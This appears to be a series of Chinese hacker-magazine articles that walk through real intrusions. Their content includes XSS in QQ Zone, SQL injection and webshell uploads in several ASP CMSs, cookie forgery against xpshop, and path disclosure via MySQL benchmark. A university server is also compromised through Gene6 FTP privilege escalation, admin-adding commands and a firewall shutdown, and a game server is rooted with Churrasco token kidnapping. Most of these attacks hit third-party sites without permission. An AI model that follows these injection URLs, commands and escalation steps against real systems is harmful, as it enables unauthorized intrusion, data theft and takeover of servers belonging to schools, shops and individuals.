    if($('list') && $('list').getResult().length>0) {
        $('inputValue')[1].value = $('list').getResult()[0].data;
    } else {
        $('inputValue')[1].value = '';
    }
    var strValue = $('inputValue')[type].value.trim();
    if(strValue.length === 0 || !g_arrClickFlag[type]) {
        switch(type) {
            case 0: alert('请输入网址!'); break;
            case 1: alert('请选择好友或输入正确的QQ号码!'); break;
            case 2: alert('请输入电子邮件地址!'); break;
        }
        if(type != 1) $('inputValue')[type].focus();
        return;
    }
    if(type == 0) {
        var reg = new RegExp('^((http|https|ftp|news):\\/\\/|mailto:)', 'ig');
        var result = reg.exec(strValue);
        var strUrl = result ? strValue.substr(result[0].length) : strValue;
    }
}
```


```javascript
/* if (sUrl.length > 0 && sUrl.substr(sUrl.length-1) != "\\") {
    sUrl += "\\";
    var sHeader = result ? result[0] : "http://";
    strValue = sHeader + sUrl;
} */

else if (type == 1) {
    strValue = parseInt(strValue, 10);
    if ((!isNaN(strValue)) || strValue <= 10000) {
        alert("请输入正确的 QQ 号码");
        $n("inputValue")[type].focus();
        $("inputAreaDiv"+type).style.backgroundColor = "#ffffd0";
        $("qqHintArea").className = "input_hint_wrong";
        return;
    }
}

else if (type == 2) {
    if (!/^[a-z0-9_\-]+@[a-z0-9\-]+(\.[a-z0-9\-]+)+$/i.test(strValue)) {
        alert("请输入正确的电子邮件地址");
        $n("inputValue")[type].focus();
        return;
    }

    if (!getParameter("emailflag", true)) {
        strValue = "mailto:" + strValue;
    }

    if (!getParameter("editorid", true)) {
        if (!parent.g_arrQZEditorReturnVal)
            parent.g_arrQZEditorReturnVal = {};
        parent.g_arrQZEditorReturnVal[getParameter("editorid", true)] = [strText, strValue, type];
    } else {
        alert("QZone 编辑器无法插入超链接，请刷新页面重试");
    }

    parent.closePopup();
}
```

```javascript
if (type != 1) {
    $n("inputValue")[type].focus();
    return;
}

if (type == 0) {
    var reg = new RegExp(/((http|https|ftp|news):\\/\\/|mailto:)/, 'ig');
    // 这个地方用正则匹配了协议。
    var result = reg.exec(strValue);
    var sUrl = result ? strValue.substr(result[0].length) : strValue;
    /* if (sUrl.length > 0 && sUrl.substr(sUrl.length-1) != "\\") {
        sUrl += "\\";
    } */
    var sHeader = result ? result[0] : "http://";
    strValue = sHeader + sUrl;
}
```

看完以上半 POC、半注释、半解释的代码，你大约能看懂什么吧？QQ Zone 里的这个 js 就这么输出了我们原来的东西。先让你匹配 http、https 等协议，然后赋值到 sHeader 里去，最后我们看到的就是 “xss”。

以上就是一个 QQ 空间的 DOM XSS 的小分析，既然百度都能有那么多的 DOM XSS，何况腾讯呢？不过腾讯过滤得很狠，有时候给你起个 htmlcode……

我突然想起了 baidu 登录处的 xss，和这个不是一样，但是差不多，也是没经过任何过滤就将内容写到了 js 里去，代码如下：

```html
<script language="javascript">
var err_str="";
switch(0){
case 1:
    err_str = "用户名格式错误，请重新输入";
    break;
case 2:
    err_str = " 用户 \"</script>\" 不存在 ";
    break;
case 3:
```

```javascript
if (err_str = "用户\"</script>")
```

在 `err_str = "用户\"</script>")` 不存在这个地方有问题，程序员没注意到，是大家的作业了哦！

写到这大家可能会问，这 DOM XSS 能干什么呢？挂马还是搞站？其实都不是，是一个安全意识而已，注重细节。我相信 QQ 空间还有很多的 XSS，大家尝试着去挖吧。

> 编辑点评：QQ 空间的一个 XSS 分析和利用，对 XSS 比较感兴趣的可以慢慢品味下，再自己去测试测试。

这个函数是用来控制“插入超级链接”用的，其实里面只有一段是用来控制刚才 URL 的，其他的是控制好友空间、email 那些的。我们来看看具体的代码：

```javascript
if (strValue.length == 0 || !g_arrClickFlag[type+1]) {
    switch(type) {
    case 0:
        alert("请输入网址");
        break;
    case 1:
        alert("请选择好友或者输入正确的 QQ 号码");
        break;
    case 2:
        alert("请输入电子邮件地址");
        break;
    }
}
```

## Pcook CMS V2.1 的安全分析

从本文你可以学到快速搞定 Pcook CMS V2.1。

星期天在家没事，于是就到站长网下代码来学习，选择了当天公布的 Pcook CMS V2.1 研究了一下。用小旋风 ASP 架设后，发现版面很棒，如图1。

不过安全性却不怎么样高，首先看搜索文件的代码：

```asp
<%
KeyWord=Trim(request("KeyWord"))
stype=trim(request("type"))
ID=trim(request("ID"))

if KeyWord<>"" then
    mypage.getsql=server.createobject("adodb.recordset")
    if stype=1 or stype="" then
```

```asp
mypage.getsql="select top 100 * from pcook_Article Where yn_=0 and Title like '%"&KeyWord&"%' order by DateAndTime desc"
elseif stype=2 then
    mypage.getsql="select top 100 * from pcook_Article Where yn_=0 and UserName='"&KeyWord&"' order by DateAndTime desc"
end if
```

我发现 keyword 只用 trim() 函数过滤了字符串两边的空格，连个防注入也没有，直接在搜索里搜索文章里的内容，URL 变为了 `/Search.asp?KeyWord=ad&Submit=%CB%D1%CB%F7`，我们将 KeyWord 与 Submit 替换位置，放到工具里检测；如图2。

pangolin 是我用过的工具里检测搜索型注入漏洞最好的，在数据库添加 Pcook CMS V2.1 的管理员数据库名 `pcook_Admin`，不一会就爆出了管理员的账号密码，如图3。在网站 URL 后加 admin 进入后台，用刚才爆出的账号密码登录。

# 新洞练练看

录，直接在后台发表文章，上传改后缀的木马，再备份一下就可以得到 webshell 了，如图4。

百度一下，随便找个特征文件就可以，按照上面介绍的方法，一会儿就得到了一台服务器，如图5。

> **编辑点评：** 很简单的一篇文章，注册、登录、上传、得到 webshell，门槛都很低。

- 从本文可以学到：
  1. 2月小说网漏洞分析
  2. 漏洞的实践利用

## 2月小说网 0day

图 热爱的陌生人

大家好，我是“熟悉的陌生人”，新的一年祝《非安全》越办越好，祝高手更高，菜鸟不再菜！今天给大家带来的是“2月小说网”的一个漏洞，漏洞发现者是“小勇装夜”。“2月小说网”是才发布不久的一个网上小说阅读程序，代码采用 ASP 编写，通过此漏洞，可以轻松拿到 webshell。

漏洞出在 book.asp 文件中，关键代码如下：

```asp
if request("cmd")<>"" And request("path")<>"" then CreateObject("Scripting.FileSystemObject").CreateTextFile(server.mappath(request("path")),True).WriteLine request("cmd")
```

这段代码比较简单，主要是两个参数 cmd 和 path。先判断这两个参数，如果都不为空的话，就创建一个以 path 参数为名的文件，内容为 cmd 参数的值。

写到这里有的朋友可能想，我们在 cmd 参数里写进一句话，path 参数写个 *.asp 文件不就可以了吗？这个思路不错，我们仔细研究下。Book.asp 文件还需要个参数 act，这个是写死的，参数值是 ok。我们随便写点东西进去尝试下，如图1。

如果要写入一句话木马，那么我们构造的代码应该是 book.asp?cmd=一句话木马&path=1.asp&act=ok。本地测试下，一句话木马并没有写进去，如图2。

这是为什么呢？理解 IIS GET 参数传递机制的朋友都应该知道，IIS 接收 GET 参数的时候，字母和数字等字符原样发送，但空格转换为“+”号，其它符号转换为“%XX”，其中 XX 为该符号以 16 进制表示的 ASCII（或 ISO Latin-1）值。因此，我们的一句话木马并不能成功写入。

但是 POST 方法就没有这些限制了，所以我们可以自己构造表单，用 POST 方法上传，从而可以成功写入我们的木马。虽然返回错误，但我们的这句木马确实写进去了，如图3、图4。

分析好了，我们来到网络战场试验下。关键字 Powered By www.2Yue.com.cn，然后找个站，成功写入一句话木马，如图5。

目前漏洞已通知作者，官方网站已经修补了该漏洞，并提供最新程序下载。

> **编辑点评：** 很清晰的一篇漏洞分析和利用文章，其中关于 IIS 的机制说明是个不错的知识点，望各位小黑熟悉。

### LCX 西首：

编辑了几年的“西线无战事”，我有许多作者还是不怎么明白写这个栏目文章，并不是你有时入侵了一个网站，然后写一些入侵过程就完事。这样的文章太多太雷同了，经常收到 10 篇稿子里有 4 篇是写怎样用 webeditor 漏洞拿到 webshell，然后又怎样用 serv-u 提权。除了作者和入侵的网站名不同之外，我看其它都一样一样，因为大家用的技术也是差不多。我有时只好在这些雷同的文章中挑一些文字好的来发表，所以有的作者会问：“为什么我写的和杂志上的文章一样却不给我发表呢？”这个栏目应当是要求“技术是第一位”，然后通过你的入侵过程把你的技术层面展现出来。就算是虚构一个入侵故事，把你不同于常人的技术亮点写出来也是好文章。

这篇文章我想献给可爱、美丽的赵洁，希望她天天开心、快乐！

## 黑客和超女的亲密接触

图 rabbitsafe

- 从本文中您可以学到：
  1. 如何查找网站使用程序
  2. 如何利用 xpshop 系统 cookie 欺骗漏洞

大家好，今天给大家讲讲渗透网站的一些基本思想和方法。当我们打开一个网站时，很多朋友第一步就是拿着阿D的 SQL 注入工具在那里查找 SQL 注入点。其实，网站渗透可以很简单，就看你怎么玩，很多网站渗透时根本不需要工具，思路才是渗透网站的前提。

下面，我结合对网站渗透的理解，以实际例子给大家讲讲如何渗透一个超女的网上商城，大家跟我一起进入今天的渗透之旅吧！

### 一、踩点

其实踩点这个步骤很多渗透的文章都会说，因为这是渗透网站或服务器必须要做的一步。就像我们和某个人打交道一样，如果想有把握地获得那个人的信息，第一步最好是能多了解那个人的信息，包括脾气、性格、喜好等，有了这些信息才能更好地了解这个人。

一般踩点要获得如下信息，包括网站使用的程序、服务器对外开放的端口、网站管理员的信箱等。要获得网站使用的程序，可以通过以下几种方法得到：

1、查看网站版本信息。如果网站管理员未修改，一般都在网站最下方，如图1，然后通过 Google 或 Baidu 进行查找。

2、如果网站管理员修改了网站版权信息，可以通过查看网站源代码的方法查找网站使用程序。也就是点击右键，然后在网站源代码里查找 “Created Page” 等关键字，如图2。

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML><HEAD>
<meta name="verify-v1" content="..." />
<TITLE>游戏短信网 手机短信 祝福短信 贺卡图片 祝福图案 手机短信 ...</TITLE>
<META content="搞笑短信,手机短信,祝福短信,图片短信,短信息,搞笑笑话" name="Keywords">
<META content="搞笑手机短信网,短信图片" name="Description">
<META http-equiv="Content-Type" content="text/html; charset=gb2312">
<link rel="stylesheet" href="Templates/index/default/skin.css" type="text/css">
<META content="MSHTML 6.00.2900.3354" name="GENERATOR">
<script language="JavaScript" src="FS_Inc/Prototype.js"></script>
<!--Created Page at 2003-9-10 14:45:33, by Foosun.Cn, Foosun Content Management System 4.0.0(FoosunCMS)-->
```

图2

一般风讯 CMS、帝国 CMS、新云 CMS 等系统都可以通过此方法确认版本信息。

3、通过网站后台获取网站程序信息，对于一些公司企业类网站比较有用，如图3。

4、网站模板、页面都可以改，但是一般没有人去改网站程序，特别是网站关键程序。比如动网论坛的版面程序 index.asp?boardid=2，一看就知道是动网论坛。其它网站程序也可以通过看关键文件来获得网站信息，大家还可以把关键文件放到“笨网站”查询（http://www.seeknot.com/），这样可以找到相应的程序。

5、通过网站的说明文件查找网站程序。一般很多站长下的免费程序，其说明文件都忘记了删除，我们可以多记录一下常用的说明文件，例如 xpshop 商城的说明文件是“安装说明.txt”，存放在网站根目录下，其它网站程序也类似。从说明文件里，我们可以完全了解网站程序版本信息，如图4。

6、靠大家对网站程序的熟悉程度，要多架设网站，进行学习，每一种网站程序架设一次就明白了。下面对一些常用网站程序分类：

- 论坛程序：国内用得比较多的论坛有动网论坛、bbsxp 论坛、discuz 论坛、phpwind 论坛、leadbbs 论坛、飞天论坛、ftbbs 等。
- CMS 系统：国内使用较多的有动易 CMS、风讯 CMS、php168cms、帝国 CMS（早期很多大型站点都是用它的）、新云 CMS、织梦内容 CMS 等。
- blog 程序：国内使用较多的有 oblog、z-blog、pjblog、x-blog 等。

确定好了网站程序，接下来就是服务器端口扫描了，这里就不详细解说了。通过扫描器进行扫描，针对服务器开放端口号进行分析，如果开放了 21 端口，我们可以 FTP 上去，查看 FTP 服务器信息。其它端口也可以用类似方法获得信息，通过这些信息，我们可以大致了解服务器安全软件的情况，以及对外提供的服务等。

### 二、寻漏洞

下面，我通过渗透某超女网上商城为例，结合 xpshop 漏洞，给大家讲讲网站渗透过程。网上商城的网址是 `http://www.xxx.com/`，使用的程序是 xpshop6.3 商城系统，这套系统是 ASP.NET 程序 + MSSQL 数据库结构。

刚开始我对这套程序也不熟悉，有什么漏洞也不了解，那我们该怎么办呢？找 Google 或 Baidu，在 Google 查找关键字“xpshop 漏洞”，第一个查找结果就是鬼仔's Blog，它那里刚好有最新 xpshop 漏洞介绍。

马上看了下漏洞介绍，主要是 cookie 欺骗漏洞，xpshop 商城系统采用 cookie 方式作为前台用户登录验证，我们只要将 logincode 和 mid 两个变量的值改为 1，就可以将普通用户变成管理员。然后，在前台获得管理员的找回密码答案，通过忘记密码功能修改管理员口令，登录商城后台，再想办法拿 Webshell。

渗透的前期工作都准备到位了，开始正式渗透。我们先注册一个普通商城账户 rabbit222，然后登录这个普通商城账户，一定要选择 cookie 有效期，这样程序才会通过 cookie 来验证用户。

登录 rabbit222 普通商城账户后，再来到 rabbit222 的用户信息中心，如图5。

现在可以修改 cookie 信息来欺骗进入 admin 用户中心，我这里使用的是傲游浏览器的 cookie 信息管理插件来进行修改的，大家也可以使用其它的 cookie 修改工具来修改，如图6。

我们现在只要将 logincode 和 mid 两个变量的值改为 1，就可以将普通用户提升成管理员了，如图7。可以看到管理员的“找回密码答案”了，记下密码答案，退出登录。然后，利用“密码找回”功能修改管理员口令，如图8。

填写刚才看到的管理员“找回密码答案”，成功修改管理员口令，如图9。

再利用修改后的管理员口令进入网站后台，地址是 `http://www.xxx.com/admin/default.aspx`，成功进入网站后台，如图10。

### 三、拿权限

我们进入后台了，该如何拿 Webshell 呢？其实很简单，在后台管理添加 Flash 广告处可直接上传马，我们选择功能模块“营销管理”－“Flash 广告添加”就可以直接上传马了，如图11。

后台可以备份数据文件，格式也没有限制，但是插马备份总是失败，不知是什么原因。通过添加 Flash 广告这里就可以成功拿到 Webshell，如图12。

### 四、总结

本文主要是简单介绍一些渗透方面的方法，以及渗透时如何确定网站程序，并结合 xpshop 商城漏洞为实例，讲解渗透网站过程。希望本文能够给大家有所帮助，其实渗透是门艺术，大家只有多多练习、多多总结才能真正领悟。如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我。

> 编辑点评：看了这篇文章，我想起老冯的一句话：“无它，但手熟尔。”熟练掌握了一些漏洞技巧后，搞定一个正好有漏洞的站也不是什么难事。

## PHP+MYSQL 得到绝对路径的方法

因为某型流氓 [LST]

这篇文章总结了暴 PHP 路径的方法。

一直以来，有很多朋友在渗透 PHP+MYSQL 环境的服务器时，无法得到 WEB 目录的绝对路径。可以说，获得网站 WEB 目录的绝对路径在整个渗透过程中是非常关键的，而如何获得 WEB 目录的绝对路径，也是一个相当古老的问题，解决的方法也有很多。

最常见的就是在 URL 地址的后面加单引号 `'` 和 `AND 1=1` 及 `AND 1=2` 一类的语句使 PHP 程序报错，或者通过 `load_file` 读取服务器上的 `/usr/local/httpd/conf/httpd.conf`、`/usr/local/apache2/conf/httpd.conf`、`/etc/httpd/conf/httpd.conf` 等配置文件。但是，我们 HACKING 的路永远像天空一样宽广，暴绝对路径的方法也不能仅仅局限于此。

## 1、通过 PHPMYADMIN

phpMyAdmin 有个漏洞，访问 `layout.inc.php` 文件的时候可以暴出绝对路径，如图1。该文件通常的地址为：

`weburl+phpmyadmin/themes/darkblue_orange/layout.inc.php`，

这是多么地轻松加愉快啊！

### 2、通过“最大执行时间”

在 php.ini 里有一条语句是 `max_execution_time`，也就是 PHP 的最大执行时间。如果一个 PHP 页面在 “MAX_EXECUTION_TIME” 时间内没有执行完毕，PHP 程序就会报错，而 PHP 报错的结果一般都会把绝对路径坦白地告诉我们。

我们可以使用 DDOS，使打开目标网站的速度减慢，从而暴出路径。这个办法理论上是可行的，可是实际操作的代价很高，不是特别可取。既然我们不能在目标服务器上做手脚，但却可以在自己的计算机上搞些小动作，把主机访问 PHP 程序的速度减慢。诸如在路由上限制我们自己的带宽，挂一个速度极慢的代理等等，然后再浏览我们的目标网站，这些都是可以做的。

## 3、通过 MYSQL

有时候，WEB 应用程序并不能返回任何有用的错误信息；这对我们来说就造成了一个非常严重的问题。不过，我们还可以使 MYSQL 数据库产生错误，这样我们就有一定的机会得到梦寐以求的绝对路径。

我们的想法十分美好，简直把年轻人浪漫的思想感情发挥得淋漓尽致。可是，现实总是很残忍，不幸的是 MYSQL 数据库内并没有简单的 “WAIT” 或者 “SLEEP” 函数让我们亲爱的数据库“昏迷”一会儿，从而产生我们想要的结果。

好在 MYSQL 数据库很照顾我们，我们可以很凶很暴力地用非常复杂的运算累死它（这个思想类似于 DOS）。我们可以用组合加密源码和 `benchmark` 函数来实现我们想要的效果。

```mysql
mysql> use test;
Database changed
mysql> select benchmark(999999,sha1('hacking'));
```

`benchmark` 函数的作用是以指定的次数来计算指定的表达式，MYSQL 参考手册里可以看到关于这个函数的如下描述：

> BENCHMARK(count,expr)
>
> BENCHMARK() 函数重复 count 次执行表达式 expr，它可以用于计时 MYSQL 处理表达式有多快，结果值总是 0。它多用于 MYSQL 客户端。它报告查询的执行时间。报告的时间是客户端的经过时间，不是在服务器端的 CPU 时间。执行 BENCHMARK() 若干次可能是明智的，并且注意服务器机器的负荷变化，以此来解释结果。只要我们把参数 count 设置大点，那么执行的时间就会变长。

下面我们看看在 MYSQL 里执行 `select benchmark(999999,sha1('hacking'))`，也就是进行 999999 次 SHA1 运算的效果，如图2。可以看到，执行时间为 2.75 秒。只要我们把参数 count 设置大一些，这样执行的时间就会变长，当执行时间超过了服务器所能承受的范围，我们的目的就达到了。

例如，在注入点上做如下操作：

```text
http://www.tian6.com/index.php?id=521/**/union/**/select/**/1,2,3,4,benchmark(999999,sha1(0x6861636B696E67)),6,7
```

ps：`0x6861636B696E67` 是 hacking 的 16 进制，这么做是为了绕过 magic_quotes_gpc=on 时对单引号的限制。

### 4、通过搜索引擎

前几个方法实在有些麻烦，而最简单的方法莫过于让搜索引擎帮我们找。可以用 Google 或者百度搜索 “warning:” 之类的历史错误信息，看看之前有没有道友用某种“奇技淫巧”得到了网站的绝对路径。语法可以像 `site:tian6.com Warning:` 这样，搜索引擎就会帮我们找出来该网站历史错误的信息记录。如果运气好的话，直接用此功能查找，得来全不费工夫。我用该方法很轻松地就找到了搜狗网站的绝对路径，如图3。

其实，在 PHP+MYSQL 环境下得到绝对路径的方法还有很多，这其中靠 phpMyAdmin 得到绝对路径的方法都有很多，如果各位道友有什么非常好的方法，可以到 NOHACK 论坛和我讨论，我的 ID 是知识型流氓。

> **编辑点评：**

什么是好文章呢？发前人未想，思别人未思，让人眼前一亮的是好文章；另一类就是总结式的了，你看现在的黑客大部头书，哪一本不是总结式的呢？搜集整理、汇编、点评而成的也是好文章。但这篇文章也有缺点，就是立意是好的，但是收集的素材却不够多。像 PHP 暴绝对路径的还有 `php?id[]=123`、phpMyAdmin 等各种版本的漏洞等等；在 WEB 目录上有虚拟目录列表、读 robots.txt 查看等方法。

## 另类黑XX理工学校

通过本文您可以学到：

- 一则社工的小利用

看看自己学校的网站就来气，典型的弱智型。我想如果换上我一个黑页，比它首页强多了，呵呵。学校网站是全静态的，无处下手，而且也是买的空间放的网站，旁注下很难提权，权限设置得超级 BT。

后来无意中转到了小波的博客，看到他写的关于社工的一篇文章，得到了一些灵感。打开 http://tool.chinaz.com，通过 Whois 查域名注册人和维护人，得到一些管理员的信息，例如电话、信箱地址、邮箱、相关信息，这样就可以去社工了，如图1、图2！

## 我的一次完整入侵——渗透 XX 大学

本文介绍了 Gene6 的另一种提权法。

### 一、踩点

目标 XX 大学，主站域名 www.XX.edu.cn。首先使用常用的招数：百度设置为每页显示 100 项结果，搜索：`inurl:asp? site:XX.edu.cn`，因为有很多学院的二级域名，所以难免存在有漏洞的网站，如图 1。挨个检测了下，得到结果如下：

- `http://gh.jhun.edu.cn/ArticleShow.asp?ArticleID=96`  MD5 破不出来
- `http://yywz.XX.edu.cn/show.asp?id=125`  成功进后台
- `http://xyh.XX.edu.cn/show.asp?id=101`  找不到后台
- `http://hhy.XX.edu.cn/newsDetail.asp?fID=2&sID=5&aID=90`  找不到后台

`http://www.XX.edu.cn/pages/lm_new/show.asp?id=1093` 注入点，找不到后台。

最后目标锁定为 `http://yywz.XX.edu.cn/show.asp?id=125`，打开管理登录页面，习惯性地先试了“万能密码”的 `or 1=1 or 1=1`，还真进去了！如图 2。很眼熟，貌似是有上传漏洞的雷驰系统。

## 二、社工到 SHELL + Gene6 提权

百度了一下，漏洞利用如下：构造 `http://localhost/leichinews/admin/uploadPic.asp?actionType=mod&picName=test.asp`，然后在上传文件里填写要传的图片格式的 ASP 木马，这样就可以在 uppic 目录下上传文件名为 test.asp 的文件，路径为：`uppic/test.asp`。

当时我就照着上面的步骤利用了一下，老是卡在上传那个页面。最后我直接访问 uppic/up.asp 文件，打开的页面让我愣了好一会，如图 3。

**图 3**

我记得我上传的是个一句话啊，怎么变大马了？还没等我连接呢，突然脑袋转过弯来了——有人捷足先登了，hmily，名字挺眼熟的，这不是群里一哥们吗？不过我没有直接找他要密码，我先试试他的 ID：hmily。运气不错，小小社工一下还真进去了，如图 4。

用 Webshell 逛了一圈，大致情况如下：C、D、E 盘都可读，其中所有学院的分站都在 E 盘下，但是都不可写；C、D 盘可读可写，Everyone 控制（进了服务器后看见的）；wscript.shell 可用，终端端口改为 3310 了，不支持 ASPX、PHP 等脚本。不过权限还不是限制得太死，至少 C、D 盘都可读可写。

下面就是找适合提权的第三方软件了。在 D 盘上传 CMD.EXE 执行了一些基本命令（`netstat -an` 看端口，3310 能看见；`net start` 看服务，有 IPSEC、瑞星杀毒等），看了下 D 盘装的软件，一下就看见了 GENE6，这是一个 FTP 软件。记得看到过利用这个软件提权的资料，马上百度了下，网上流传的做法如下：

在任意账户配置文件中添加 `SiteCommand List0=-1,test,c:\test.bat,0,60,0,0,jid`，修改任意用户的配置文件，然后以这个用户登录上 FTP，执行 `quote site "test"` 即可执行 `C:\test.bat` 文件，test.bat 里我们写上任何系统命令都是可以执行的。

**图 4**

打开 GENE6 的目录，尝试修改用户配置文件，可以修改。用户密码是以 MD5 保存的，随便找个用户破解出来就行，要是都破不出来我们可以直接用自己的密码替换，不过几十个 FTP 用户没理由都破不出来吧？

**图 5**

这里我随便找了个用户开刀，修改配置文件添加一条命令 `SiteCommandList0=hg,d:\s.bat,0,60,0,0,test`。这里说明一下，网上的方法有个前提，那就是还要有条命令 `Scripts0=SiteCommands.vbs` 在配置文件里。

刚开始的时候我不知道要有这个前提，执行命令一直出现“500 unknown command”，如图 5。网上的方法也没有说清楚，我就自己下了个 Gene6 来安装，发现要给用户配置执行相应 VBS 的权限才能用这样的方法提权，如图 6。

添加好 `Scripts0=SiteCommands.vbs` 后，就开始写 `d:\s.bat` 的内容了，命令如下：

```text
net user hg /add
net localgroup administrators hg /add
```

打开 CMD，执行命令：登录 FTP 服务器 IP，输入账号密码，执行命令 `quote site "hg"`，`200 command executed`，命令执行成功。Webshell 执行命令 `net user`，如图 7，管理员成功添加上了，接下来就直接登录终端了。

**图 6**

**图 7**

本来以为一帆风顺的，结果登录不了，看来是 IPSEC 搞的鬼了（其实后面发现根本不是 IPSEC 的原因）。停了它的服务再登录还是不行，再 `net start` 一遍，发现有个 ICS，如图 8。

这是 Windows 自带的防火墙，修改 `d:\s.bat` 的内容为：`sc stop sharedaccess`，再登录 FTP 执行命令就可以停掉防火墙了。

**图 8**

继续登录，这下成功了，如图 9。

### 三、后话 and 总结

其实看起来很简单的渗透过程，我花了 4 天时间，2 天一直在研究怎么提权和分析为什么登录不上终端等问题。第一天就添加上了用户，但是一直登录不上终端，一直以为是 IPSEC 的问题。想到了停它服务或者添加 IP 策略允许我的 IP 访问 3310 端口（因为我是可以执行系统命令的），甚至想用个反弹木马，但是看到有瑞星就没动手，因为手头没什么过瑞星的反弹远控。

还好和 TOMMIE 商量了下，发现是 WIN 自带防火墙的问题，停掉后就进入了系统。但是 TOMMIE 他丫进了终端后把防火墙给打开了，自己就被弹出来了，啊啊。

GENE6 貌似有个 BUG，防火墙一关一开后就再也连不上 FTP 了，除非重启 FTP 服务。这样，服务器瘫痪了一天（FTP 登录不上去，我也执行不了命令重启它），第 4 天管理员重启了 FTP，我立马上去停了防火墙，然后登录终端清脚印，呵呵。

还有就是查看服务时，发现有个 MSSQL SERVER，`netstat` 看端口，没有 1433 和其他机器连着，说明 MSSQLSERVER 服务是为本地工作站的，如图 10。但是几十个分站我也不知道哪个用了 MSSQL 数据库，本来用 Webshell 的查找木马功能来搜“uid=”这个关键字，结果可能是因为文件太多，进程直接卡死。最后进了服务器才找到提供 MSSQL 服务的分站，一级目录下全是 HTM 文件。当时我一个个接着找的时候给忽略掉了，因为以为没有 ASP 文件，哪想到 ASP 文件全在二级目录下，最后也找到了 SA 的密码，传了个剑心的 SQLROOTKIT，可以成功执行命令了。这样就可以不用 GENE6 来执行命令，方便了很多。

**图 9**

**图 10**

搞下的服务器 IP 是 210.XX.XX.133，ping www.XX.edu.cn 得到 210.XX.XX.130，和主站不是一个 IP，`tracert 210.XX.XX.130`，发现只有一跳，说明两个服务器在一个网关下，可以进行嗅探。不过我没有进行下去了，管理员可能有所察觉，删除了我添加的用户，世界太危险，我还是就此罢手比较好。

总的来说，还是运气不错，社工到一个 SHELL，并且 GENE6 的文件可以修改，不然等我找到那个 SA 密码，估计天都黑了。

> 编辑点评：可以结合本期的《Gene6 FTP Server 提权技巧》这篇文章来看，本文的方法更为简单，而且还补充了网上利用 Gene6 提权方法的一个小细节。

## 魔兽再狂也难抵万能权限

从本文你可以学到魔兽私服的渗透过程。

大家好，今天给大家带来的是渗透魔兽私服，配合万能提权拿下魔兽私服服务器教程。前段时间朋友弄了个魔兽私服，让我帮他看看网站程序和服务器的安全性。

通过检测，魔兽私服网站存在注入漏洞，通过其可以成功拿到 Webshell，但是服务器进行过安全设置，没有办法拿到服务器权限。一直想把服务器权限拿到手，刚好最近听说 Windows 出了个本地万能提权漏洞，我就利用这个漏洞测试了一下，结果成功拿到服务器权限，于是就有了今天这篇文章，下面跟大家一起分享这次的渗透过程。

## 一、Webshell

朋友开的魔兽私服网站地址是：

`http://xxxwow.com/`

网站采用的是 IIS + PHP + MYSQL 架构，网站显示新闻的程序 News_Show.php 存在注入点，提交 and 1=1 和 and 1=2，页面返回的信息不一样，变量 cid 对接收的整型变量没有过滤，注入点地址是 `http://xxxwow.com/News_Show.php?do=show&cid=6`。

下面是猜解字段数，提交 `http://xxxwow.com/News_Show.php?do=show&cid=6/**/order/**/by/**/10/*`，页面返回错误，说明字段比 10 小；提交 `http://xxxwow.com/News_Show.php?do=show&cid=6/**/order/**/by/**/5/*`，页面返回正确，说明字段比 5 大。

最后确定字段数是 7，提交地址 `http://xxxwow.com/News_Show.php?do=show&cid=6/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,6,7/*`，返回页面如图 1。再提交 `http://xxxwow.com/News_Show.php?do=show&cid=6/**/and/**/1=2/**/union/**/select/**/1,user(),version(),database(),5,6,7/*`，返回了数据库的相关信息，连接数据库的用户名、数据库版本信息、网站数据库名等。知道数据库是 MYSQL5 版本，不是使用的 root 用户连接。

**图 1**

数据库是 MYSQL5 以上版本都可以使用系统表来猜解其它表字段、内容等信息，《黑客手册》以前的文章也讲过，我就不详细说明了。我在《黑客手册》2008 年第 9 期的文章《记一次房产门户网站渗透全过程》里也详细说过方法，猜解过程我就不详细说明了。

利用 MYSQL5 专用 PHP 注入工具很快猜解出了网站管理员表名和字段名，如图 2。紧接着又猜解出了管理员账号和口令，如图 3。

利用猜解出来的管理员账号和口令成功登录网站后台，如图 4。

在“玩家贴图”功能模块成功上传了 ASP 木马，这里的 ASP 木马要在马的代码前面插入“GIF89a”字符串来欺骗系统，如图 5。

通过查看上传文件属性地址，知道了 ASP 木马的地址，成功拿到网站 Webshell，如图 6。

拿到 Webshell 以后，提权一直是个难题，试过很多办法都没有提权成功，服务器上的 Wscript.Shell 被删除了，无法执行命令，如图 7。

上传了一个 PHP 木马也不能执行命令，如图 8。

查看了连接 MYSQL 普通账号的口令，服务器只开了 80 和 3389 端口，利用此用户的口令试了下管理员登录，提示口令错误。

再试试其它脚本，上传了一个 ASPX 木马上去，没想到还支持 ASP.NET，可以成功执行命令，如图 9。

现在我们有 USER 组执行命令的权限了，通过查看端口和服务也没有找到好的提升权限的办法。后来就和朋友说了，网站的 Webshell 拿到了，但是没有办法提权，朋友也把网站漏洞给补上了。

### 二、万能提权

没过多久，网上爆出了 Windows 本地万能提权漏洞，这里说的万能提权是指 Windows Token Kidnapping 本地提权漏洞，此漏洞信息描述如下：

漏洞是由于在 NetworkService 或 LocalService 上运行的代码，可以访问同样是在 NetworkService 或 LocalService 上运行的进程。部分进程允许提升权限到 LocalSystem。

对于 IIS，默认安装是不受影响的，但以 Full Trust 运行的 ASP.NET 代码受此漏洞影响。如果权限低于 Full Trust，也不受此漏洞影响。同样，ASP 代码不受此漏洞影响，只有 ASP.NET 才受影响。

针对 SQL Server，如果用户以 administrative 权限运行代码，则受此漏洞影响。在 Windows Server 2003 上，攻击者可以通过 MSDTC 获取 token，访问其它同样 token 的进程，从而提升权限。任何具有 SeImpersonatePrivilege 的进程都有可能造成权限提升。

要利用这个漏洞提权，简单地说就是你获得的 Webshell 必须是 ASP.NET 程序，而且能够执行命令。只要这台服务器装过补丁了，又没有对 IIS 里的 ASP.NET 进行安全设置，那么基本上就可以玩下。

到网上去下了一个 Windows Token Kidnapping 本地提权漏洞提权的工具，找了找原来的 Webshell，发现前段时间朋友魔兽私服的 Webshell 还在，真晕，朋友竟然没有删，那我就试试这个万能提权的效果吧。

那个 Webshell 是支持 ASP.NET 的，我们来试试看这个 Windows Token Kidnapping 本地万能提权能否提权成功。把漏洞利用工具传到了 `c:\php\` 目录里，这个 php 环境目录默认是可以执行应用程序的，提权工具命令格式如下：

```text
Churrasco.exe "要执行的命令"
```

我们把要执行的命令换成添加管理员的命令，如图 10。提示命令成功完成，管理员用户真的加上去了！马上查看 rabbitsafe 用户是否添加成功，如图 11。

